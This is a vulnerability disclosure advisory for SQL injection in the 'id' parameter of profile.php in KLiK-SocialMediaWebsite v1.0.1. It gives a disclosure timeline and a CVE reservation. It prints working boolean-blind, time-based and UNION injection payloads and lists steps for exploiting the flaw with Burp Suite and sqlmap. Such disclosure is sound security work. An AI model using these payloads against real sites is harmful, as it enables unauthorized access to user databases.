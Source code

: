 # KLiK-SocialMediaWebsite version v1.0.1

### Vulnerability Explanation:
KLiK-SocialMediaWebsite v1.0.1 has SQL Injection Vulnerabilities on profile.php at parameter `id`.

### Attack Vectors:
KLiK-SocialMediaWebsite v1.0.1 Once an user has been created it can also be find people on KLiK through the KLiK Users page. The "id" parameter of the profile.php can be abused for injecting arbitrary SQL queries.

### Affected: 
- http://ip_address/KLiK/profile.php?id=user_id
- GET /KLiK/login.php

### Payload :
```
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=27 AND 3227=3227

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=27 AND (SELECT 3046 FROM (SELECT(SLEEP(5)))barN)

    Type: UNION query
    Title: MySQL UNION query (NULL) - 11 columns
    Payload: id=-2373 UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT(0x71787a7171,0x6d67676474624545784f564265735871415865575a4f72697053686d724768624969514c70754459,0x717a707071),NULL,NULL,NULL,NULL,NULL,NULL#
```

### Tested on: 
1. KLiK SocialMediaWebsite version v1.0.1 (https://github.com/msaad1999/KLiK-SocialMediaWebsite/releases/tag/v1.0.1)

2. Firefox version 105

3. sqlmap version 1.6.7 stable

### Steps to attack:
1. Login with username and password.
2. Click the icon depicting a person in the upper right corner.
3. Intercept request by using Burp Suite.
4. Select an individual from the KLiK Users page by clicking on their name.
5. Returning to Burp Suite, at /profile.php, right-click and select "Copy to file."
6. Send the request file to Kali Linux and use sqlmap with it.
7. SQL Injection vulnerability discovered through id

### Discoverer:
:shipit: Grim The Ripper Team by SOSECURE Thailand

### Medium:
- 

### Disclosure Timeline:
- 2022–09–28: Vulnerability discovered.
- 2022–09–28: Vulnerability reported to the MITRE corporation.
- 2022–10–15: CVE has been reserved.
- 2022–10–31: Public disclosure of the vulnerability.

Reference:

1. 

2.

3. https://github.com/msaad1999/KLiK-SocialMediaWebsite/releases/tag/v1.0.1

4. https://github.com/msaad1999/KLiK-SocialMediaWebsite

